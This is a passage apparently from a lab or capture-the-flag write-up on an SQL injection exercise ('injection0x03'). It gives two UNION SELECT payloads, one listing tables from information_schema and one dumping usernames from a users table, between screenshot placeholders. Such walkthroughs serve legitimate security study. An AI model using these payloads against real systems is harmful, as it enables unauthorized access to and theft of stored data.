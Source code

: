 Hooray, now it's going to be easy -->

```
Senpai Knife Set' union select null,null,null,table_name from information_schema.tables#
```

<figure><img src="../../../.gitbook/assets/image (269).png" alt=""><figcaption></figcaption></figure>

it printed out every table so we just have to pull the one that is interesting for us:

<figure><img src="../../../.gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>

```
Senpai Knife Set' union select null,null,null,username from injection0x03_users#
```

<figure><img src="../../../.gitbook/assets/image (271).png" alt=""><figcaption><p><span data-gb-custom-inline data-tag="emoji" data-code="1f389">🎉</span></p></figcaption></figure>
